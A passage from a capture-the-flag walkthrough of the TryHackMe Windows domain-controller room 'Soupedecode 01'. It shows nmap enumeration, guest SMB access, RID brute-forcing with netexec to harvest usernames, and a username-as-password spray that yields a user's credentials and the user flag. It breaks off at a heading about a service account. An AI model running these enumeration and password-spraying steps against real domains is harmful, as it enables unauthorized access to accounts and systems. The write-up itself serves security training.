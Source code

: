 ```yaml
---
description: Test your enumeration skills on this boot-to-root machine. - by josemlwdf
icon: windows
layout:
  width: default
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Soupedecode 01

***

Platform: [TryHackMe](https://tryhackme.com/room/soupedecode01)

Difficulty: Easy

Machine Type: Windows

***

### Initial enumeration

Nmap scan results:

```
┌──(ghost㉿kali)-[~/tryhackme/soupedecode]
└─$ sudo nmap -Pn -A -p- --min-rate 4000 10.201.30.86 -oN nmap.full
```

```
Nmap scan report for 10.201.17.189
Host is up (0.35s latency).
Not shown: 65518 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-08-25 08:07:07Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: SOUPEDECODE.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: SOUPEDECODE.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-08-25T08:08:54+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=DC01.SOUPEDECODE.LOCAL
| Not valid before: 2025-06-17T21:35:42
|_Not valid after:  2025-12-17T21:35:42
| rdp-ntlm-info: 
|   Target_Name: SOUPEDECODE
|   NetBIOS_Domain_Name: SOUPEDECODE
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: SOUPEDECODE.LOCAL
|   DNS_Computer_Name: DC01.SOUPEDECODE.LOCAL
|   Product_Version: 10.0.20348
|_  System_Time: 2025-08-25T08:08:16+00:00
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49710/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|2012|2016 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2022 (89%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 5 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-08-25T08:08:19
|_  start_date: N/A
|_clock-skew: mean: -1s, deviation: 0s, median: -1s

```

Looking at the open ports, it's clear we are dealing with some type of windows domain controller machine.

First of all add DNS domain name to our /etc/hosts file.

Domain Name - SOUPEDECODE.LOCAL

Computer Name - DC01.SOUPEDECODE.LOCAL

### Initial Access as guest

As SMB is open on the target machine, I tried various method to list SMB shares, but only login as a built-in guest user with an empty password worked via netexec.

```
┌──(ghost㉿kali)-[~/tryhackme/soupedecode]
└─$ nxc smb 10.201.74.77 -u 'guest' -p '' --shares
```

<figure><img src="../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

Results revealed IPC$ share is readable with these credentials, so I tried to connect to it via smbclient, but there was nothing present on that share.

```
┌──(ghost㉿kali)-[~/tryhackme/soupedecode]
└─$ smbclient '//10.201.74.77/IPC$' -U 'guest'
```

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Next I tried to brute force user's rid via netexec.

```
┌──(ghost㉿kali)-[~/tryhackme/soupedecode]
└─$ nxc smb 10.201.74.77 -u 'guest' -p '' --rid-brute > users-messed-list.txt 
```

<figure><img src="../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

As we got too many users from rid brute-force, now we can simply extract only username from this messed up list for further enumeration.

```
┌──(ghost㉿kali)-[~/tryhackme/soupedecode]
└─$ cut -d'\' -f2 users-messed-list.txt | cut -d' ' -f1 > formatted-users-list.txt
```

<figure><img src="../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

***

### Access as ybob317 and User flag

I began by enumerating SMB shares on the target domain using the `nxc smb` tool with a list of usernames (reused as passwords). Instead of brute-forcing, we only tested exact username-password pairs and continued the enumeration even after discovering valid credentials. During this process, I identified valid credentials for **ybob317**.

```
┌──(ghost㉿kali)-[~/tryhackme/soupedecode]
└─$ nxc smb 10.201.94.156 -u formatted-users-list.txt -p formatted-users-list.txt --no-brute --continue-on-success
```

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Then, I tried to enumerate shares with those valid credentials and found that user 'ybob317' had read access to 'Users' share.

```
┌──(ghost㉿kali)-[~/tryhackme/soupedecode]
└─$ nxc smb 10.201.57.152 -u 'ybob317' -p 'REDACTED' --shares
```

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Connected to 'Users' share via smbclient.

```
┌──(ghost㉿kali)-[~/tryhackme/soupedecode]
└─$ smbclient '//10.201.57.152/Users' -U 'ybob317'
```

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

All the directories were inaccessible except 'ybob317' and there I got the Desktop directory and then in Desktop I got user flag.

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

Downloaded it on my own kali machine and got the user flag.

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

***

### Access as service account 'file\_svc'

